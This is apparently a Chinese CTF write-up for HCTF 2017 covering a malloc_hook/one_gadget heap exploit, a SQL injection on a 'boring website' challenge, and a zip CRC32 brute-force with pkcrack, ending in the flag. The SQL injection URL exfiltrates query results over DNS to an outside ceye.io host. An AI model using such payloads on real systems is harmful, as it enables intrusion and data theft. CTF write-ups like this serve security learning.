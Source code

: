 分四次修改malloc_hook，改为`one_gadget`。

然后发现`one_gadget`对栈上参数有等于NULL的要求，不过那个参数就是`index`，通过改写全局变量中的`inuse`，即可控为0。

### 利用

https://gist.github.com/elnx/98a9c62f59e0e610e41c526b0dd1ce42

## boring website


扫描得到代码，发现是link server。

于是利用mysql+win的特殊方法查数据，参考<https://ricterz.me/posts/%E7%AC%94%E8%AE%B0%3A%20Data%20Retrieval%20over%20DNS%20in%20SQL%20Injection%20Attacks>

```
http://106.15.53.124:38324/?id=1%20union%20SELECT%201%20FROM%20openquery(mysql,%20%27select%20load_file(concat(%22\\\\%22,%20hex((select%201%20from%20information_schema.tables)),%20%22.gnlb5n.ceye.io\\bb%22))%27)
```

最终结果
```
646E352D316F672D63616E2D74616B652D663134672D366173383466.gnlb5n.ceye.io
```

## misc zip
爆破crc32
```python
import zipfile
import binascii
import itertools
import string

f = zipfile.ZipFile('./misc_big_zip.orig.zip')
infos = f.infolist()
crc_list = [item.CRC for item in infos]
name_list = [item.filename for item in infos]

pt = 'QWERTYUIOPASDFGHJKLZXCVBNMqwertyuiopasdfghjklzxcvbnm_'

for i in itertools.product(pt, pt, pt, pt, pt):
    m = ''.join(i)
    calc = binascii.crc32(m) & 0xffffffff
    if calc in crc_list:
        print m, name_list[crc_list.index(calc)]
```

注意有重复的crc。

结果为歌词`You_know_the_bed_feels_warmer_Sleeping_here_alone_You_know_I_dream_in_color_And_do_the_things_I_want_You_think_you_got_the_best_of_me_Think_you_had_the_last_laugh_Bet_you_think_that_everything_good_is_gone`，然后pkcrack爆破，拿到三个key用zipdecrypt解密，得到flag `hctf{We1c0me_2_HCTF2017_h4ve_fun_LOL}`

